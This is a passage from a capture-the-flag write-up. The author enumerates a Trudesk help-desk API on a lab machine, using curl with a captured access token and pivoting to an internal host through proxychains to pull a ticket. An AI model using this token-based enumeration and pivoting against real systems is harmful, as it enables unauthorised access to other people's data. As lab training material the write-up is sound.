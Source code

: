 It seems clear from the third query that `*` is used as in regex to say zero or more, but even with `.*`, it returns nothing.

Going down the list, `/api/v1/tickets/stats` (orange) seems like it could help orient me, and it does:

```

oxdf@hacky$ curl -H "Content-Type: application/json" -H "accesstoken: f8691bd2d8d613ec89337b5cd5a98554f8fffcc4" -s -l http://trudesk.carpediem.htb/api/v1/tickets/stats | jq .
{
  "data": [],
  "ticketCount": 0,
  "closedCount": 0,
  "ticketAvg": null,
  "mostRequester": {
    "name": "Jeremy Hammond",
    "value": 2
  },
  "mostCommenter": {
    "name": "Robert Frost",
    "value": 3
  },
  "mostAssignee": {
    "name": "Jeremy Hammond",
    "value": 4
  },
  "mostActiveTicket": {
    "uid": 1006,
    "cSize": 7
  },
  "lastUpdated": "11-29-2022 08:47:45am"
}

```

I’ve got some usernames, as well as a ticket UID, 1006. I’ll pull that ticket, and it happens to be the one I need:

```

oxdf@hacky$ proxychains curl -H "Content-Type: application/json" -H "accesstoken: f8691bd2d8d613ec89337b5cd5a98554f8fffcc4" -l http://172.17.0.5:8118/api/v1/tickets/1006
```